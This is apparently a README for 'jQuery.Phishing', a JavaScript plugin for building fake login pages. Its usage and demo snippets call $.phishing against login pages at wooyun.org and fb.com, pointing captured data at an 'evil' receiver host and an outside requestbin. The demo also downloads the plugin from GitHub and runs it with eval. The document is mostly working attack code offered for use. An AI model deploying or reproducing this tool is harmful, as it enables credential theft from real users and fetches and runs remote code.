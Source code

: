 # jQuery.Phishing
## Usage
```javascript
$.phishing('http://wooyun.org/login','http://evil/receive')
```
```javascript
$.phishing('http://wooyun.org/login',()=>alert`onload`)
```
## Demo
```javascript
$.get(`https://raw.githubusercontent.com/jackmasa/jQuery.Phishing/master/jQuery.Phishing.js`,c=>{eval(c);$.phishing(`//fb.com`,`http://requestbin.herokuapp.com/1koaluq1 `)});
```
result: [http://requestb.in/1koaluq1?inspect](http://requestb.in/1koaluq1?inspect)
